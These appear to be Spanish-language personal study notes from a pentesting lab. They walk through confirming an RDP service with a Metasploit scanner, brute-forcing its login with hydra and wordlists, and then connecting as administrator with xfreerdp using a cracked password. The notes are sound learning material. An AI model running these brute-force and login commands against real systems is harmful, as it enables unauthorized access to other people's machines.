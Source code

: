 Por lo general, el protocolo RDP corre sobre el puerto 3389, pero es posible que corra por otro puerto, por lo que podemos asegurarnos de que un puerto es el RDP con metasploit:
![[Mis apuntes/ANEXOS/Pasted image 20230730164545.png]]

Usaremos el siguiente módulo de metasploit:
```bash
use auxiliary_scanner/rdp/rdp_scanner
```
![[Mis apuntes/ANEXOS/Pasted image 20230730164711.png]]

Y ahora con hydra podemos hacer el ataque de fuerza bruta con estos parámetros:
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.2.28.92 -s 3333
```
Y nos encuentra los siguientes usuarios:
![[Mis apuntes/ANEXOS/Pasted image 20230730165016.png]]

Ahora para conectarnos de forma remota, podemos usar una herramienta llamada xfreerdp:
```bash
xfreerdp /u:administrator /p:qwertyuiop /v:10.2.28.92:3333
```
![[Mis apuntes/ANEXOS/Pasted image 20230730165316.png]]

Y ya habremos entrado:
![[Mis apuntes/ANEXOS/Pasted image 20230730165226.png]]